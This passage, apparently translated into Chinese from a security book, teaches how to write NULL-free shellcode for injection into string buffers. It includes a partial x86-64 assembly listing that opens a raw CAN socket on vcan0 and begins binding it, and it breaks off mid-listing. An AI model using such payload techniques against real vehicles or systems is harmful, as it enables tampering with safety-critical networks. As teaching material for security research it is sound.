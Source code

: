 编写这个脚本与标准汇编脚本的唯一区别是你需要避免创建 NULL 值，因为你可能需要将 shellcode 注入到可能会以 NULL 结尾的缓冲区中。例如，作为字符串处理的缓冲区会扫描值，并在看到 NULL 值时停止。如果你的有效载荷中间有 NULL，代码就无法正常工作。（如果你知道你的有效载荷永远不会在作为字符串处理的缓冲区中使用，那么你可以跳过这一步。）

**注意**

*另外，你也可以使用编码器将有效载荷包装起来，以隐藏任何 NULL 值，但这样做会增加它的大小，而使用编码器超出了本章的范围。你也不会像在标准程序中那样有一个数据段来存储所有的字符串和常量值。我们希望我们的代码是自给自足的，不依赖于 ELF 头部为我们设置任何值，所以如果我们想在有效载荷中使用字符串，我们必须在如何将它们放置到栈上方面发挥创造性。*

为了将 C 代码转换为汇编，你需要查看系统的头文件。所有方法调用都会直接进入内核，你可以在这个头文件中看到它们：

```
/usr/include/asm/unistd_64.h
```

在这个示例中，我们将使用 64 位汇编，它使用以下寄存器：`%rax`、`%rbx`、`%rcx`、`%rdx`、`%rsi`、`%rdi`、`%rbp`、`%rsp`、`%r8`、`%r15`、`%rip`、`%eflags`、`%cs`、`%ss`、`%ds`、`%es`、`%fs` 和 `%gs`。

要调用内核系统调用，请使用 `syscall` —— 而不是 `int 0x80` —— 其中 `%rax` 是系统调用号，可以在 *unistd_64.h* 中找到。参数按以下顺序通过寄存器传递：`%rdi`、`%rsi`、`%rdx`、`%r10`、`%r8` 和 `%r9`。

注意，寄存器的顺序与传递参数给函数时有所不同。

清单 11-2 显示了我们存储在*temp_shell.s* 文件中的汇编代码。

```
--- temp_shell.S
section .text
global _start

_start:
                             ; s = socket(PF_CAN, SOCK_RAW, CAN_RAW);
  push 41                    ; Socket syscall from unistd_64.h
  pop rax
  push 29                    ; PF_CAN from socket.h
  pop rdi
  push 3                     ; SOCK_RAW from socket_type.h
  pop rsi
  push 1                     ; CAN_RAW from can.h
  pop rdx
  syscall
  mov r8, rax                ; s / File descriptor from socket
                             ; strcpy(ifr.ifr_name, "vcan0");
  sub rsp, 40                ;  struct ifreq is 40 bytes
  xor r9, r9                 ; temp register to hold interface name
  mov r9, 0x306e616376       ; vcan0
  push r9
  pop qword [rsp]
                             ; ioctl(s, SIOCGIFINDEX, &ifr);
  push 16                    ; ioctrl from unistd_64.h
  pop rax
  mov rdi, r8                ; s / File descriptor
  push 0x8933                ; SIOCGIFINDEX from ioctls.h
  pop rsi
  mov rdx, rsp               ; &ifr
  syscall
  xor r9, r9                 ; clear r9
  mov r9, [rsp+16]           ; ifr.ifr_ifindex
                             ; addr.can_family = AF_CAN;
  sub rsp, 16                ; sizeof sockaddr_can
  mov word [rsp], 29         ; AF_CAN == PF_CAN
                             ; addr.can_ifindex = ifr.ifr_ifindex;
  mov [rsp+4], r9
                             ; bind(s, (struct sockaddr *)&addr,
sizeof(addr));
  push 49                    ; bind from unistd_64.h
  pop rax
  mov rdi, r8                ; s /File descriptor
  mov rsi, rsp               ; &addr
```